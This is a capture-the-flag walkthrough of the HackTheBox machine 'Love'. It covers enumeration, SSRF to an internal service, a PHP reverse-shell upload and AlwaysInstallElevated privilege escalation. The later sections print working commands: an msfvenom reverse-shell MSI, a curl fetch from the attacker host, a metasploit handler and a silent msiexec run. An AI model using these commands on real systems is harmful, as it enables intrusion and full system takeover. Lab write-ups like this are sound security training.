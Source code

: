 # HackTheBox - Love

## Introduction
So you have arrived at last !!! Come now ! Let me show you how i did this box named **Love**. Let's get started, shall we ?

### 1. Enumeration
I got an ip address of `10.10.10.239` when i joined the machine. As always i fired up two `nmap` scans
```bash
nmap -sC -sV 10.10.10.239 -oN recon/nmap_initial

nmap -p- 10.10.10.239 -oN recon/nmap_all_ports
```

I let it run in the background and visited the site manually. There was a website running on port *80*. The website says it it a voting system built on PHP. The website offers you a login functionality when supplied with voter's id and password.

![](2021-05-19-08-25-06.png)

Let's try out logging in with some most common username and passwords. Nothing! Let's see if there is any kind of injection vulnerability in login functionality. Oh! Oh! Nothing!! Let's take a look at the source code. 

![](2021-05-19-08-27-32.png)

Oh yes! We see the server is using **AdminLTE v2.4.0**, for dashboard management. A quick google search shows that this version is vulnerable to file upload. So if we could access the dashboard page, we can upload malicious payload to get reverse shell. *Yowzah!!!* Now let's find access to dashboard page.

Let's fuzz for directories and see if we can get anything interesting
```bash
ffuf -u http://love.htb/FUZZ -w /path/to/wordlist
```
##### *Note: I configured hosts file for love.htb*

So we got some endpoints here. One of them is */admin* which gives us a page that looks exactly like the default page asking for login credentials. The endpoint */images* shows that directory listing is enabled but access to most of the files are forbidden. There was nothing of our interest.

Let's take a look at our `nmap` scan results.

![](2021-05-19-08-29-48.png)

We can see different services running on different ports. There is a **http** service running on port **80**, which we saw earlier. There is also a **http** server configured with ssl on port **443** *(not https)*, and a **http** server on port **5000**. I tried to see what those services are serving but was kindly welcomed by a *forbidden* message. Taking a closer look at the `nmap` results, we see that ssl certificate is suggesting a hostname *staging.love.htb*. 

![](2021-05-19-08-31-43.png)

After setting up host configuration, visiting `http://staging.love.htb` responded us with a webpage.

There was a signup option which doesn't work but demo section was taking a url and displaying in the page.

![](2021-05-19-08-33-13.png)

Ah!! SSRF!! This was the first thing on my mind. A lot of previously forbidden endpoints were still forbidden to us but few endpoints were accessible now like */server-info*. This must be the clue that this is how i am going to get credentials. I tried a lot of endpoints and URLs that i could think of but none worked. I was exhausted at that time and a little bit frustrated too. :tired_face:

Then [SAGAR](https://github.com/SagarDangal/) came in and adviced me to see if i could access server listening at port **5000**. I completely forgot about it. And to my surprise, i could access the webpage *(internal SSRF)* and there were credentials for **admin**. Ha! Ha! Ha! I quickly visited `http://love.htb/admin` and signed in with those credentials. And it worked !!! I now have access to the dashboard i was waiting for.


### 2. Malicious payload
There was an add voter section where we can upload our malicious file. We know this is the way coz we know **AdminLTE** had the vulnerability. I tried different reverse shell payloads but the most stable shell was obtained through this payload. *(Link provided [here](payloads/all_os_php_rev_shell.php))*

![](2021-05-19-08-37-05.png)

So let's fire up `netcat` listener
```bash
nc -vnlp 9000
```
Once i added the user with malicious payload as profile picture, i got a reverse shell. Yo hoo !!! We were logged in as user **Phoebe** and we got our user flag at his desktop.

![](2021-05-19-08-38-47.png)

Here ends our journey for first checkpoint. Now let's go for root flag. Are you ready ??

### 3. Privilege Escalation
To be honest, i am not much familiar with windows boxes. So i thought the best thing to do at this moment is to run `winpeas`. Yes. Yes. I know what you are thinking. I am not being a script kiddie here and let's not be so judgemental for a moment, shall we? Everyone uses it. Its automation baby !!!

**Winpeas** told me that there is **AlwaysInstallElevated** flag set to 1 for both **HKLM** and **HKCU** registry. This seemed interesting. My simple understanding told me that may be my installed software may run on elevated privileges. With few google searches, it was indeed the case. 

Let us create a payload to return us reverse shell with `msfvenom`
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.4 lport=4444 -f msi > rev.msi
```
Now i uploaded this file to our victim box using curl 
```bash
curl http://10.10.14.4/rev.msi -O rev.msi
```
##### Note: i ran a http server with python on my attacker machine

Now let's listen to the reverse connection using metasploit.
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 10.10.14.4
msf exploit(handler) > set lport 4444
msf exploit(handler) > exploit
```

On our victim box, let's execute the **msi** file we uploaded
```bash
msiexec /quiet /qn /i rev.msi
```

And we got the meterpreter session. Fantastic!!

![](2021-05-19-08-49-57.png)

And we see that we are indeed rooted in local system account. Now we can have our **root** flag at Administrator's desktop.